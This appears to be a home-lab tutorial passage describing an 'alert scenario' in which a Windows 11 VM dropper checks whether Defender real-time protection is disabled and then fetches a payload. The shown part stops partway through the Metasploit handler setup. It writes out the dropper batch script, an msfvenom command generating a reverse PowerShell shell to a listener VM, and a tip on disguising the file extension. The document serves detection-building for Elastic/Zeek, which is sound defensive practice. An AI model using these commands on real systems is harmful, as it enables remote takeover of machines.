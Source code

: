 

# Alert Scenario 2: Batch Files and Malicious Payloads

## Overview
A dropper file located on the Windows 11 VM will contain a script to determine if Microsoft Defender is enabled or disabled. If Microsoft Defender is disabled, then the dropper file will then download a malicious script to execute a remote reverse shell to connect to the ParrotOS VM.

Detections will be created to alert on downloading batch files on an unusual port, PowerShell scripts being launched from a batch file, batch files downloaded by PowerShell using `Invoke-WebRequest` command, and Command Line/PowerShell commands matching strings potentially found in a malicious Metasploit payload.

The dropper file contains the below PowerShell script. In a nutshell, it runs the `Get-MPComputerStatus` command which returns a list of properties and their values (True, False, etc). The script then checks to see if the property `RealTimeProtectionEnabled` (Windows Defender) is equal to false. If the property value is equal to false, then execute the designated malicious payload script.

```
@ECHO OFF
powershell -Command "& {if ((Get-MPComputerStatus).RealTimeProtectionEnabled -eq $false) {<MALICIOUS PAYLOAD SCRIPT>}}"
```



## Conducting the Attack

From the ParrotOS VM terminal, run the below command to generate a windows reverse PowerShell script payload into a file called "shell.bat". The listening host is the ParrotOS VM (192.168.56.104) and the listening port can be assigned an arbitrary port number (e.g. 8443).

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.56.104 lport=8443 > shell.bat
```



>[!NOTE]
> To obfuscate the file extension to make it appear like it has a .txt extension, run the command `mv shell.bat shell.txt` after creating shell.bat. It may be interesting to perform this attack with shell.bat and shell.txt and examine how Elastic/Zeek detects it.






Next, we'll need to open Metasploit and prep the reverse shell by running the below commands.
```
sudo msfconsole
```

```
use exploit/multi/handler
```
```
options
```
